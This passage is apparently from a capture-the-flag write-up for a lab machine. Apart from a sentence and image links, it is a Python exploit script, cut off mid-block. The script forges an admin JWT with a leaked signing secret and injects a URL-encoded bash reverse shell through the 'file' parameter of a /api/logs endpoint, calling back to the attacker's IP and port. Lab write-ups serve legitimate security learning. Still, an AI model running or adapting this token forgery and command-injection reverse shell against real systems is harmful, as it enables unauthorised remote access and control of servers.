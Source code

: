     ![](/assets/img/posts/secret/priv-route.png)

And finally, This lead to command injection by creating jwt token with admin's username from `/log` endpoint.

![](/assets/img/posts/secret/command-injection.png)


Reverse shell script
```py
import json
import jwt
import re
import requests as r
import sys

ip = '10.10.14.42'
port = 4141
secret = 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
token = {"auth-token": jwt.encode({"name": "theadmin", "email": "admin@admin.com"},
                                         secret,
                                         algorithm="HS256")}
injection = f'%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F{ip}%2F{port}+0%3E%261%22' #sys.argv[1]
rspn = r.get(f'http://10.10.11.120:3000/api/logs?file=command;{injection}', headers=token)

try:
```